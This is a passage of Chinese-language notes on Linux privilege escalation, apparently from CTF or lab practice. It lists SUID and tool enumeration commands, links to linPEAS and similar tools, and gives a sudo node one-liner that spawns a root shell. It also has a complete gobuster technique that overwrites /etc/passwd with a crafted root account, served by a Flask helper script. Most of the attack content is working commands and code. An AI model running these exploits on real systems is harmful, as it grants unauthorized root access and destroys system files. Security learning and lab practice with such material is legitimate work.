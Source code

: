 查找开发工具和支持的语言：

- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`

查找特定文件权限：

- `find / -perm -u=s -type f 2>/dev/null`: 查找带有SUID位的文件，它允许我们以比当前用户更高的权限级别运行该文件。

### 自动化工具

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [pspy](https://github.com/DominicBreuker/pspy)
- [hack网站](https://book.hacktricks.wiki/en/index.html)

(使用方法自己看一眼就知道了)

### 常见提权方式(只写一些经常遇到的)

#### 内核漏洞

kali有集成工具searchsploit，输入版本号去找就行，然后上传到靶机里面

#### sudo提权

> sudo node -e 'child_process.spawn("/bin/bash",{stdio: [0,1,2]})'

#### gobuster提权

```#kali
perl -e 'print crypt("1","aa")'

cat a.py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```
